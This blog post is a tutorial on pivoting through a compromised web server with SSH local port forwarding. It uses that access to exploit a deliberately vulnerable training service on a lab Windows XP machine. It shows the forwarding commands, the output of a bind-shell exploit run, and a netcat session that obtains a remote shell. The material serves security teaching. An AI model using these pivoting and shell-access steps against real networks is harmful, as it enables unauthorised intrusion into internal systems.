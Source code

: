 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 1: SSH"
date: 2012-10-06 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-1-ssh.html
---
```


Pivoting is a technique that allows attackers to use a compromised system to attack other machines in the same network, or more devastatingly, machines in another network that the compromised machine has access to. There are several techniques that can be used to pivot deeper into the network, and I'll be describing some of them in the next few articles. I've found that this topic can be a bit confusing to beginners, and I hope that these articles will help clear things up. In this article, we'll look at pivoting with SSH.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-06/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

Since we have SSH access to the web server, we can use SSH port forwarding to use it as our pivot. We run the following command on our attacking machine: 

```
ssh -L 127.0.0.1:10000:192.168.63.142:10000 webmaster@192.168.81.181
```

This tells SSH that we want to forward connections to port 10000 on our machine to port 10000 on 192.168.63.141 (Windows XP) through 192.168.81.181 (web server).

Once we've authenticated and logged in to 192.168.81.181, we can verify that port 10000 is running on our machine: 

```
# netstat -antp | grep 10000
tcp        0      0 127.0.0.1:10000         0.0.0.0:*               LISTEN      8230/ssh
```

We're ready to run our exploit. Our exploit takes two arguments, the target's IP address and the port to connect to. Since we are pivoting our attack through the web server, we specify port 10000 on our own machine: 

```
# ./serverstrcpy.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done, check port 4444 on target
```

The exploit claims to be successful, and we can verify it by using netcat to connect to port 4444 on the target. Keep in mind that we do not have direct access to the target, so we have to use SSH's local port forwarding again. This time, we forward port 4444 on our machine to port 4444 on the target: 

```
ssh -L 127.0.0.1:4444:192.168.63.142:4444 webmaster@192.168.81.181
```

Now when we connect to port 4444 on our machine with netcat, we get a shell on the Windows XP machine: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\WINDOWS\system32>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\WINDOWS\system32>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the Windows XP machine on the internal network. That concludes the first part of this series of pivoting articles. In part 2, we'll look at using Proxychains to pivot our exploit and hack into the Windows XP machine. 

